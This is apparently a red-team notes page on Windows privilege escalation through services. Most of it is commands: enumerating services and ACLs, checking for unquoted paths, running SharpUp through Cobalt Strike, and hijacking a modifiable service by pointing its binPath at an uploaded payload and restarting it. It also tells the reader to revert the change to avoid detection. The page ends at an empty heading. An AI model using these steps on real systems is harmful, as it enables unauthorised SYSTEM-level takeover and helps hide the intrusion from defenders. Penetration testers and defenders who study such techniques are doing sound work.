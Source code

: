 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_Privesc
---
```



<span style="font-size: 35px; color:red"><b>Windows Privilege Escalation</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Windows Services</b></span>
Enumerate services:
```shell
sc query
```
OR
```powershell
Get-Service | fl
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Unquoted Service Paths</b></span>
Check with CobaltStrike:
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```
List services and their paths (looking for <span style="color: red">Unquoted Service Paths</span>:
```shell
wmic service get name, pathname
```
i.e. For an unquoted service path like C:\Program Files\Vulnerable Services\Service.exe, the OS will look for:
- C:\Program.exe
- C:\Program Files\Vulnerable.exe
- C:\Program Files\Vulnerable Services\Service.exe
&nbsp;
Check permissions on Folders and Files:
```powershell
Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```
and check for <span style="color: red">BUILTIN\Users Allow  CreateFiles</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Modifiable Services</b></span>
Check with CobaltStrike:
```powershell
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```
After that, use [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) powershell script to enumerate the service further:
```powershell
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name <VulnService> | select -expand Access
```
Check ServiceRights and IdentityReference to see who can do what.
If you have the rights, for instance, you can change the default binary path to an arbitrary file.
Check the current Binary Path:
```powershell
run sc qc <VulnService>
```
Then upload the binary (remember it must be a <span style="color:red">.svc.exe</span>) and reconfigure the path:
```powershell
run sc config <VulnService> binPath= <C:\Temp\tcp-local_x64.svc.exe>
```
Recheck the path and restart the service:
```powershel
run sc qc <VulnService>
run sc stop VulnService
run sc start VulnService
```
Rec-hange the binary path at the end to avoid detection.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Weak Service Binary Permissions</b></span>
